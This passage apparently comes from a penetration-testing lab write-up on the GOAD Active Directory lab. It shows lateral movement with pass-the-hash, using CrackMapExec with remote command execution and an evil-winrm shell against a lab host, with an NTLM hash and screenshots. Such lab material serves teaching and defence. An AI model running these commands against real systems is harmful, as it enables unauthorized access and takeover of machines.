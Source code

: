### Lateral Move with CME

```bash
cme smb 192.168.56.11 -H ':cba36eccfd9d949c73bc73715364aff5' -d 'north' -u 'catelyn.stark' -x whoami
```

- By default cme only check if smb admin$ is writable. If it is the case cme show "pwned".
- For execution cme use the -x option and by default use the wmiexec impacket method

![lateral_cme.png](/assets/blog/GOAD/lateral_cme.png)

### Using winrm

- Winrm
  - protocol HTTP or HTTPS

```bash
evil-winrm -i 192.168.56.11 -u catelyn.stark -H 'cba36eccfd9d949c73bc73715364aff5'
```

![lateral_winrm.png](/assets/blog/GOAD/lateral_winrm.png)

![lateral_evilwinrm_wireshark.png](/assets/blog/GOAD/lateral_evilwinrm_wireshark.png)
